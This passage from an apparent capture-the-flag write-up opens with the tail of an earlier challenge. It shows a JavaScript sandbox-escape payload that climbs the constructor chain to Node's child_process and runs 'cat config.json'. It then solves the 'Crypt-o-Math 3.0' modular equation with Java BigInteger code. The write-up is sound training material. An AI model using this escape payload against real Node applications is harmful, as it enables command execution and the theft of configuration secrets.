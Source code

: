 ```javascript
new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("child_process").execSync("cat config.json")
```

### Day 10: Crypt-o-Math 3.0

We get the following formulas and values:

```
c = (a * b) % p
c = 0x7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2
p = 0xDD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9
b = 0x7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5
```

We have to find a. I remembered reading about this in last years writeup.
To solve the equation we can rewrite it:

`c * b^-1 % p = a`

The following Java code solves the equation:

```java
BigInteger c = new BigInteger("7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2", 16);
BigInteger p = new BigInteger("DD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9", 16);
BigInteger b = new BigInteger("7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5",16);

BigInteger bInverse = b.modInverse(p);
BigInteger a = c.multiply(bInverse).mod(p);
```

This a doesn't give a valid flag when decoding it to ASCII. So I assumed that we have to take a different solution for
a. I wrote a program that gets me other valid solutions for a and checked if they start with HV

```java
BigInteger c = new BigInteger("7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2", 16);
BigInteger p = new BigInteger("DD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9", 16);
BigInteger b = new BigInteger("7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5",16);

BigInteger bInverse = b.modInverse(p);
BigInteger a = c.multiply(bInverse).mod(p);

int i = 1;
while (true) {
    BigInteger current = new BigInteger(a.toString());

    for (int j = 0; j < i; j++)  {
        current = current.add(p);
    }

    if (current.toString(16).startsWith("4856")) {
        System.out.println(current.toString(16));
        return;
    }

    i++;
}
```
